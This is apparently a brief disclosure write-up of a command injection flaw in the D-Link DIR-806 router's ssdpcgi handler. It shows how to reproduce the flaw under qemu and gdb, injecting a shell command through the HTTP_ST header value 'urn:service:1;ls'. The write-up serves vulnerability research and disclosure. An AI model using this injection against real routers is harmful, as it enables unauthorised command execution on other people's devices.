 # D-LINK DIR-806 1200M11AC wireless router DIR806A1_FW100CNb11 command injection
## Firmware address
http://www.dlink.com.cn/techsupport/ProductInfo.aspx?m=DIR-806 
![image-1](../img/4.jpg)
## Debugging verification
Debugging with qemu and gdb:
qemu: 
`sudo chroot . ./qemu-mips-static -0 "ssdpcgi" -E REMOTE_ADDR=127.0.0.1 -E SERVER_ID=1 -E REMOTE_PORT=8888 -E HTTP_ST="urn:service:1;ls" -E REQUEST=/ -E REQUEST_METHOD=M-SEARCH -g 12345 ./htdocs/cgibin`
gdb: \\
`set architecture mips` 
`set endian big` 
`target remote 127.0.0.1:12345` 
Set the HTTP_ST parameter as HTTP_ST="urn:service:1;ls" 
![image-1](../img/1.jpg)
